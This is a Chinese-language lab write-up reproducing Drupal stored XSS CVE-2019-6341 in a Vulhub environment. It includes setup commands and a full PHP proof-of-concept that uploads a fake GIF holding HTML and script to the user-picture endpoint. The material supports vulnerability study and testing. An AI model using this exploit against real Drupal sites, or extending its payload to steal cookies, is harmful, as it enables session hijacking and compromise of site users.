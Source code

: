 # Drupal XSS漏洞 CVE-2019-6341

## 漏洞描述

影响软件：Drupal

方式：通过文件模块或者子系统上传恶意文件触发XSS漏洞

参考链接：[Drupal 1-click to RCE 分析](https://paper.seebug.org/897/)

效果：JS代码执行（Cookies 资料窃取、会话劫持、钓鱼欺骗、网页挂马等）

## 环境搭建

Vulhub执行如下命令启动drupal 8.5.0的环境：

```bash
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

## 漏洞复现

该漏洞需要利用drupal文件模块上传文件的漏洞，伪造一个图片文件，上传，文件的内容实际是一段HTML代码，内嵌JS，这样其他用户在访问这个链接时，就可能触发XSS漏洞。

Drupal 的图片默认存储位置为 `/sites/default/files/pictures/<YYYY-MM>/`，默认存储名称为其原来的名称，所以之后在利用漏洞时，可以知道上传后的图片的具体位置。

使用PoC上传构造好的伪造GIF文件，PoC参考[thezdi/PoC](https://github.com/thezdi/PoC/tree/master/Drupal)的PoC。

如图，输入如下命令，即可使用`vulhub/drupal/CVE-2019-6341`目录下的poc构造样本并完成上传功能，第一个参数为目标IP 第二个参数为目标端口。

```bash
php cve-2019-6341-exp.php 192.168.11.1 8080
```

![image-20220222212248553](./images/202202222122602.png)

上传成功后，访问图片位置，即可触发 XSS 漏洞。

Tips:

1. 因为 Chrome 和 FireFox 浏览器自带部分过滤 XSS 功能，所以验证存在时可使用 IE 浏览器。
2. 访问的图片名称为_0的原因是因为 Drupal 的规则机制，具体原理见[Drupal 1-click to RCE 分析](https://paper.seebug.org/897/)

![image-20220222213034577](./images/202202222130628.png)

> 此处复现不不成功，虽然xss代码上传成功，但是没有被正确解析。
>
> 只有IE浏览器可以正确解析xss并弹框。

## 漏洞POC

```php
<?php
/*
usage: php poc.php <target-ip>

Date: 1 March 2019
Exploit Author: TrendyTofu
Original Discoverer: Sam Thomas
Version: <= Drupal 8.6.2
Tested on: Drupal 8.6.2 Ubuntu 18.04 LTS x64 with ext4.
Tested not wokring on: Drupal running on MacOS with APFS
CVE : CVE-2019-6341
Reference: https://www.zerodayinitiative.com/advisories/ZDI-19-291/

*/

$host = $argv[1];
$port = 80;

$pk =   "GET /user/register HTTP/1.1\r\n".
	"Host: ".$host."\r\n".
	"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n".
	"Accept-Language: en-US,en;q=0.5\r\n".
	"Referer: http://".$host."/user/login\r\n".
	"Connection: close\r\n\r\n";

$fp = fsockopen($host,$port,$e,$err,1);
if (!$fp) {die("not connected");}
fputs($fp,$pk);
$out="";
while (!feof($fp)){
  $out.=fread($fp,1);
}
fclose($fp);

preg_match('/name="form_build_id" value="(.*)"/', $out, $match);
$formid = $match[1];
//var_dump($formid);
//echo "form id is:". $formid;
//echo $out."\n";
sleep(1);

$data = 
"Content-Type: multipart/form-data; boundary=---------------------------60928216114129559951791388325\r\n".
"Connection: close\r\n".
"\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"mail\"\r\n".
"\r\n".
"test324@example.com\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"name\"\r\n".
"\r\n".
"test2345\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"files[user_picture_0]\"; filename=\"xxx\xc0.gif\"\r\n".
"Content-Type: image/gif\r\n".
"\r\n".
"GIF\r\n".
"<HTML>\r\n".
"	<HEAD>\r\n".
"		<SCRIPT>alert(123);</SCRIPT>\r\n".
"	</HEAD>\r\n".
"	<BODY>\r\n".
"	</BODY>\r\n".
"</HTML>\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"user_picture[0][fids]\"\r\n".
"\r\n".
"\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"user_picture[0][display]\"\r\n".
"\r\n".
"1\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"form_build_id\"\r\n".
"\r\n".
//"form-KyXRvDVovOBjofviDPTw682MQ8Bf5es0PyF-AA2Buuk\r\n".
$formid."\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"form_id\"\r\n".
"\r\n".
"user_register_form\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"contact\"\r\n".
"\r\n".
"1\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"timezone\"\r\n".
"\r\n".
"America/New_York\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"_triggering_element_name\"\r\n".
"\r\n".
"user_picture_0_upload_button\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"_triggering_element_value\"\r\n".
"\r\n".
"Upload\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"_drupal_ajax\"\r\n".
"\r\n".
"1\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"ajax_page_state[theme]\"\r\n".
"\r\n".
"bartik\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"ajax_page_state[theme_token]\"\r\n".
"\r\n".
"\r\n".
"-----------------------------60928216114129559951791388325\r\n".
"Content-Disposition: form-data; name=\"ajax_page_state[libraries]\"\r\n".
"\r\n".
"bartik/global-styling,classy/base,classy/messages,core/drupal.ajax,core/drupal.collapse,core/drupal.timezone,core/html5shiv,core/jquery.form,core/normalize,file/drupal.file,system/base\r\n".
"-----------------------------60928216114129559951791388325--\r\n";

$pk = 	"POST /user/register?element_parents=user_picture/widget/0&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1\r\n".
	"Host: ".$host."\r\n".
	"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0\r\n".
	"Accept: application/json, text/javascript, */*; q=0.01\r\n".
	"Accept-Language: en-US,en;q=0.5\r\n".
	"X-Requested-With: XMLHttpRequest\r\n".
	"Referer: http://" .$host. "/user/register\r\n".
	"Content-Length: ". strlen($data). "\r\n".
	$data;

echo "uploading file, please wait...\n";

for ($i =1; $i <= 2; $i++){
$fp = fsockopen($host,$port,$e,$err,1);
if (!$fp) {die("not connected");}
fputs($fp,$pk);
$out="";
while (!feof($fp)){
  $out.=fread($fp,1);
}
fclose($fp);

echo "Got ".$i."/2 500 errors\n";
//echo $out."\n";
sleep(1);
}

echo "please check /var/www/html/drupal/sites/default/files/pictures/YYYY-MM\n";

?>
```

